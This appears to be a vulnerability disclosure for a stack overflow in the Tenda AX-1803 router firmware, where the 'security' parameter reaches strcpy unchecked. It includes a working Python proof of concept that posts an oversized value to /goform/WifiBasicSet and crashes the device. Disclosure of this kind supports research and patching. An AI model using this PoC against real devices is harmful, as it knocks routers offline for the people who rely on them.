


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1803

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan


## Vulnerability cause

In the function sub_72290, the security value is obtained from user-controlled input via v9 = (const char *)sub_4F55C(a1, "security", "none"), and is then copied into the local buffer v17 using strcpy(v17, v9). The buffer v17 is a fixed-size stack buffer of 256 bytes (char v17[256]), while strcpy performs no length checking on the source string. Because the "security" parameter can be supplied by the user without any enforced size restriction, an attacker can provide an excessively long value to overflow the destination buffer. As a result, strcpy will write beyond the bounds of v17, corrupting adjacent stack memory and potentially overwriting local variables or control data. This stack-based buffer overflow can crash the process, causing a Denial of Service, and may under certain conditions be leveraged for further exploitation depending on memory protections and runtime environment.


<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/WifiBasicSet"

security = "A"*7000
data = {
"security": security
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>